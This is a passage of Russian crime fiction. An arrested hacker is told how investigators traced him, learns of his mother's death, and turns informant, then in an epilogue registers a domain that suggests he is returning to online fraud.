Он опустил взгляд на свои руки, скованные за спиной. Холодный металл давил на кости. Он начал прокручивать в голове последние недели. Его гениальный план. Его чувство абсолютного контроля. Вся эта сложная конструкция, весь его триумф — всё это было лишь частью сценария, написанного этим уставшим человеком в очках. Он не играл. С ним играли. Его вели, как быка на верёвке, позволяя ему думать, что он сам выбирает путь, но конечная точка — бойня — была предопределена с самого начала. Он был не игроком. Он был фигурой на доске. И его только что сняли с неё.

*28 января 2024, 14:00*

Комната для допросов в следственном изоляторе была дистиллятом казённой безысходности. Бежевые стены, выкрашенные до половины масляной краской тошнотворного зелёного цвета. Тяжёлый металлический стол, намертво прикрученный к полу. Решётка на окне, за которой виднелся только кусок серого неба. Воздух пах дешёвым дезинфектором и затхлостью. Никита сидел на одном из стульев уже три дня. Три дня бессонницы, допросов, протоколов, очных ставок с плачущим Пашей. Он превратился в функцию, в объект.

Дверь открылась, и вошёл Власов. Он был в том же пальто. Сел напротив, положил на стол тонкую папку с делом.

— Ну что, Сергеев, — начал он спокойно. — Подумали?

Никита молчал, глядя в стол.

Власов открыл папку. Он не торопился. Он методично, пункт за пунктом, раскладывал перед Никитой всю картину его разгрома.

— Вот показания свидетеля Сергеева Павла Игоревича. Узнаёте? Ваш дроп. Рассказал всё. Ники, кошельки, даже вашу случайную оговорку про улицу Кораблестроителей. Это была первая ниточка.

Он перевернул страницу.

— Вот данные биллинга по сим-карте, с которой вы звонили матери. Засекли вышку в Колпино. Сузили круг поиска.

Он достал распечатку.

— А вот вишенка на торте. Данные наших друзей из Chainalysis. Транзакция с миксера на ваш старый биткоин-кошелёк. Кошелёк, который вы засветили год назад при покупке VPN. Который уже был у нас в базе по делу «СеверСтройИнвеста». Ошибка новичка, Никита Андреевич. Вы так увлеклись сложной игрой, что споткнулись на ровном месте.

Он положил сверху ещё один лист.

— А это самое интересное. Архив, который вы отправили Козлову. Нам его люди сами принесли, когда мы их взяли. Красиво сработано. Подделка высокого уровня. Почти поверили.

Власов закрыл папку. Тишина в комнате стала плотной, почти осязаемой.

— Расклад такой, — продолжил майор. — У нас на вас полный букет. Часть четвёртая сто пятьдесят девятой, часть вторая сто восемьдесят седьмой. В составе организованной группы. Это, если повезёт, лет десять. Реального срока. А теперь предложение. Вы нам помогаете. Сдаёте всех. Остатки команды Козлова, верхушку Алиева, других хакеров. Всё, что знаете. Превращаетесь в наш главный источник информации. Взамен — сделка со следствием, особый порядок, условный срок и программа защиты свидетелей. Новое имя, новая жизнь. Выбор за вами: десять лет в колонии или шанс начать всё сначала.

Никита слушал его отстранённо. Слова Власова доносились до него как будто через толщу воды. Десять лет, условный срок… всё это было белым шумом. В его разрушенном мире осталась только одна точка, один вопрос, который ещё имел значение. Он поднял на Власова пустые, красные от бессонницы глаза.

— Моя мать… — голос был хриплым, чужим. — Что с ней? Она знает?

Власов посмотрел на него. В его взгляде не было ни сочувствия, ни злобы. Просто констатация. Он помолчал секунду, словно подбирая нужную, протокольную формулировку.

— Сергеева Ирина Павловна. Скончалась двадцать шестого января в двадцать два тридцать. Острая сердечная недостаточность на фоне хронического заболевания. Соседи услышали грохот, вызвали скорую. Не успели. Приносим соболезнования.

Он произнёс это ровным, официальным тоном. Как факт из сводки.

Власов говорил что-то ещё, но Никита уже не слышал. Внутренний сервер, на котором работала его личность, сгорел. Синий экран. Конец сессии. Не осталось ничего: ни цели, ни смысла, ни оправдания. Вся его борьба, все его преступления, весь его гениальный план, который он строил ради неё, — всё это превратилось в прах, в злую, бессмысленную шутку. Он смотрел в одну точку на зелёной стене, не видя её. Прошла минута. Две. Потом он медленно перевёл взгляд на Власова. В его глазах не было ничего, кроме выжженной пустыни.

— Я всё расскажу, — тихо сказал он.

И он начал говорить. Он говорил несколько часов подряд, без остановки, без эмоций. Он сдавал всех. Людей Козлова. Сеть Алиева. Контакты на форумах. Схемы обнала. Пароли от серверов. Он превратился в говорящий лог-файл, в машину, выгружающую дамп своей памяти. Он совершал самое страшное предательство, но не чувствовал ничего. Предавать было уже некого и нечего. Главное предательство он уже совершил — предал самого себя и единственного человека, которого любил.

*Июль 2024*

Полуподвальное интернет-кафе на окраине города. Запах дешёвого табака, пота и пролитого энергетика. Низкое гудение старых системных блоков. Никита сидел за липким столом, глядя в мутный экран древнего монитора. Он был свободен. Условный срок. Новая фамилия в паспорте — Сидоров. Эта свобода была хуже любой тюрьмы. Деньги конфисковали. Мать была мертва. В том мире, где он когда-то был B4d_M00d, теперь он был «сукой», стукачом, предателем. Ему не было места ни в мире людей, ни в мире теней.

Он открыл браузер. Пальцы, худые и нервные, привычно легли на клавиатуру. Они помнили то, что мозг пытался забыть. Он зашёл на сайт анонимного регистратора доменов, оплата через Monero. Это было единственное действие, которое он мог выполнять с прежней уверенностью. Единственный ритуал, который ещё имел для него смысл.

Он посмотрел на пустую строку ввода доменного имени. На секунду, всего на одну долю секунды, в его пустых глазах мелькнуло что-то похожее на сомнение. Проблеск другой возможной жизни. Работа в офисе. Зарплата. Обычная, скучная, серая жизнь. Но этот проблеск тут же погас. Он не умел так жить. Он не хотел так жить. Единственное, что он умел, — это ломать. Единственное, что приносило ему подобие смысла, — это поиск уязвимостей. В системах. В людях.

Он медленно, по одной букве, словно вбивая гвозди в крышку собственного гроба, набрал в строке:

oplata-zhkh-spb․online

Нажал Enter.

Цикл начался заново.

Точки выхода нет.

